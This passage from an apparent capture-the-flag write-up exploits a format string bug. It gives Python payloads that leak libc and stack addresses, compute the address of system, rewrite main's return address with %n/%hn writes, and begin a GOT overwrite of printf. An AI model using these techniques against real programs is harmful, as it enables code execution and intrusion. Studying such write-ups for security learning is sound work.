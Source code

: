 Thus my first payload that leaks addresses looks as follows:

```python
payload_leak = '%24$p %27$p'
```

This payload gets us two addresses that we need to further process to get the ones that we desire. To get the address of system in current process memory, we do the following.

```python
libc_address = libc_leak - 0xf0 - libc.symbols['__libc_start_main']
libc_system = libc_address + libc.symbols['system']
```

0xf0 is the offset in `__libc_start_main`. `libc_leak` is the address stored as return address for `main`

### ret2main

At the time I was exploiting this challenge, I didn't realise I can use one gadget and jmp straight to `libc` to `execve('/bin/sh')`. Thus, I wanted to return to main to give myself another round of format string inputs. To do this, I computed the address where the `main`'s return address is stored and with second `printf` call, I wrote `main`'s address. This way, after finishing `main`, we jump back to `main` again.

Obtaining the pointer to return address(at stack) for `main`, storing it as `ret_addr` was done using stack address leaked in previous step and subtracting constant from it (I don't know where was the leaked address meant to be pointing, but it was a constant offset from `ret_addr`, so I used it)

```python
payload_ret2main = b'%20$n%64s%21$hn%1799s%22$hn     '
payload_ret2main += p64(ret_addr + 4)
payload_ret2main += p64(ret_addr + 2)
payload_ret2main += p64(ret_addr)
```

Let's have a look at the payload closer:

```

writes 0x00000000 to ret_addr + 4
  |
  |  writes 0x0040 to ret_addr + 2
  |     |
  |     |         writes 0x0747 to ret_addr
  |     |           |
__|__ __|_____ _____|______  ___ <----- rest is padding
%20$n%64s%21$hn%1799s%22$hn     '

```
This causes ret_addr now contains `0x0000000000400747`, which is the address of `main`.


### GOT overwrite

In previous section I had to write known address to unknown place. This time it's going to be the other way around. We will be writing the leaked `libc_system` address to known `GOT` entry of `printf`. I decided to only overwrite the lower 3 bytes, since the higher bytes had to remain the same from `printf`. I first wrote the higher byte and then the remaining two as a word. 
